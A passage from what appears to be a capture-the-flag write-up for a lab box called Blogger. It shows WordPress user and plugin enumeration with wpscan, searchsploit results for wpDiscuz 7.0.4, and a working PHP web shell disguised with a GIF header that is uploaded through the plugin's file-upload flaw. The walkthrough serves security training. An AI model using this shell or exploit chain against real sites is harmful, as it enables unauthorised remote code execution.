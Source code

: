 	      "collection": [
	        {
	          "href": "http://blogger.thm/assets/fonts/blog/index.php?rest_route=/wp/v2/users"
	        }
	      ]
	    }
	  }
	]
	```

`plugins` <br/>
* We can enumerate plugins on the blog using the command 
```
wpscan --api-token <wpscantokenhere> --url http://blogger/assets/fonts/blog enumerate ap --plugins-detection aggressive
```
* From the scan we obtain a plugin: `wpdiscuz` which is vulnerable to a file upload vulnerability according to searchsploit
* We can also find this plugin by viewing the source of the link *http://blogger.thm/assets/fonts/blog/?p=27* and searching the word *plugin*. We find the link *http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/assets/css/wpdiscuz-combo.min.css?ver=4.9.8* revealing the *wpdiscuz* plugin.
* We can now use searchsploit to find out if the plugin has any vulnerabilities.
```
$ searchsploit wpdiscuz
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Un | php/webapps/49962.sh
WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Un | php/webapps/49967.py
Wordpress Plugin wpDiscuz 7.0.4 - Unauthenticated Arbitrary | php/webapps/49401.rb
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```



### Exploitation
`Exploiting wpdiscuz plugin` <br/>
* wpDiscuz is a comment plugin for WordPress. This is a responsive comment system which offers a real-time discussion function for  visitors to post, share, and vote on comments and also allowing them to upload files. 
* From the searchsploit results above, we found out that the plugin is vulnerable to a *Arbitrary File Upload* vulnerability.
* We can abuse this upload functionality to upload a php shell to the website that allows us to run custom commands. But first, we need to comment on a post and attach a file to upload as follows.
* We then need to create a php shell to upload. We can create a file with the following content and name it `shell.php` 
```
GIF8;
<?php if(isset($_POST['cmd'])){print_r(@eval($_POST['cmd']));} ?>
```
* Now we can create a post and upload our file
	![images](/images/Blogger/6.jpg)
* Once our post is ready and we have attached and uploaded our php shell, we get a link to access the newly uploaded file(php shell) 
	![images](/images/Blogger/7.jpg)
